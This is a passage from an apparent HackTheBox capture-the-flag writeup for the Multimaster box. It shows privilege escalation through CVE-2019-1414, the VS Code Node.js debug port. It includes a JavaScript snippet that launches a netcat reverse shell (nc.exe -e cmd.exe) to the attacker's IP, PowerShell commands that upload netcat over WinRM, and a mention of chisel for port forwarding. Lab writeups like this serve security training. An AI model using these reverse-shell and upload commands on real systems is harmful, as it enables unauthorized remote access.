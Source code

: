 Now I can log in to the server from my Windows VM:

![](/assets/images/htb-writeup-multimaster/winrm_alcibiades.png)

## Priv esc from alcibiades to cyork

Alcibiades doesn't have any special privileges and he's just a member of the `Domain Users` group and the `Remote Management Users`. I did notice that there was some odd ports listening on localhost when I checked out the `netstat` output.

![](/assets/images/htb-writeup-multimaster/netstat.png)

The ports did seem to change every few minutes because when I re-ran the command I got different results. This pointed me in the direction of some scheduled task running in the background.

![](/assets/images/htb-writeup-multimaster/netstat2.png)

Checking the list of running processes I noticed that the VS Code application was running. When I checked the output a few times I saw that the PID was changing so I assumed this was the scheduled task running. I tried listing the scheduled tasks from Powershell but my user didn't have sufficient privileges.

![](/assets/images/htb-writeup-multimaster/getprocess.png)

Phra from the Donkeys HTB team has a [blog post](https://iwantmore.pizza/posts/cve-2019-1414.html) about CVE-2019-1414 which lets users get local execution by using the debug port on the VS Code Node.js server.

In a nutshell, the debug port is bound to random TCP port everytime the application starts. Since I already had a shell on the machine I could watch the output of the netstat command and see what port is currently in use.

I won't paste the entire nodejs PoC since it's already in the blog post but I did change the `spawnSync` arguments since the PoC was using using bash and Multimaster is a Windows box. It took me a while to figure out that forward slashes were required. I didn't want to get bogged down in bypassing AV or AMSI so I just called netcat that I had uploaded onto the box.

```javascript
socket.send(JSON.stringify({
      id: 3,
      method: 'Runtime.evaluate',
      params: {
        expression: `spawnSync('/programdata/nc.exe', ['-e', 'cmd.exe', '10.10.14.30', '80'])`
      }
    }))
```

To upload file with WinRM on Windows you can do the following:

```powershell
$sess = new-pssession multimaster.megacorp.local
copy-item -path nc.exe -destination c:\programdata\nc.exe -tosession $sess
```

Because the port was only listening on localhost, I had to get some port-forwarding going. I could have used a Meterpreter shell but instead opted for chisel in SOCKS proxy mode.

